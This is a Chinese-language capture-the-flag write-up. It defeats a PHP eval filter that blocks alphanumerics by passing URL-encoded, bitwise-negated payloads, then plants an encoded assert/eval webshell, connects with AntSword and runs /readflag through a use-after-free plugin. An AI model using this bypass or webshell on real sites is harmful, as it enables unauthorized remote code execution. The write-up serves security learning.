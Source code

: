 ### URL 编码取反加 ~ 绕过

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67b34f65d0e0a243d400516e.png)

打开网页给出了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}
```

我们将 php 代码 URL 编码后取反，我们传入参数后服务端进行 URL 解码

这时由于取反后，会 URL 解码成不可打印字符，这样我们就会绕过

即，对查询语句取反，然后编码

在编码前加上 ~ 进行取反，括号没有被过滤，不用取反

```php
//?code=phpinfo();
?code=(~%8F%97%8F%96%91%99%90)();
```

![](https://pic1.imgdb.cn/item/67b3554dd0e0a243d400525b.png)

构造木马

```php
$str1 = 'assert';
echo urlencode(~$str1);
$str2 = '(eval($_POST[cmd]))';
echo '\n';
echo urlencode(~$str2);

// %9E%8C%8C%9A%8D%8B\n%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
```

蚁剑成功连接

![](https://pic1.imgdb.cn/item/67b3564dd0e0a243d4005279.png)

最后借助蚁剑插件选择 PHP7_GC_UAF 模式运行 /readflag

![](https://pic1.imgdb.cn/item/67b35791d0e0a243d40052ca.png)